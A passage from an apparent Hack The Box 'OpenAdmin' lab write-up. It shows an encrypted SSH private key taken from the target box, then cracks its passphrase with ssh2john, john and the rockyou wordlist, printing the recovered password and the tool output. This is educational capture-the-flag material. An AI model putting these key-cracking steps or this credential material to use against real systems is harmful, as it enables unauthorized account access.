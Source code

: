 Now I've got a private key, and a hint to not forget my ninja password which I am assuming is `n1nj4W4rri0R!` *(this turned out to be an incorrect assumption)*.


```console
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
```
I am going to see if this gets me an ssh login as `joanna`, since that is the other user on the box.

As I've done in other boxes, to crack an SSH key you need to create a hash of the key using `ssh2john.py` which in included in kali: 

```console
root@discovery:~/htb/openadmin# /usr/share/john/ssh2john.py joanna_private.key > joanna_hash
```
Then take that hash and run it through john, using rockyou for the first attempt:

```console
root@discovery:~/htb/openadmin# john --wordlist=rockyou.txt joanna_hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (joanna_private.key)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:03 DONE (2020-01-12 18:56) 0.3289g/s 4717Kp/s 4717Kc/s 4717KC/sa6_123..*7¡Vamos!
Session completed
```
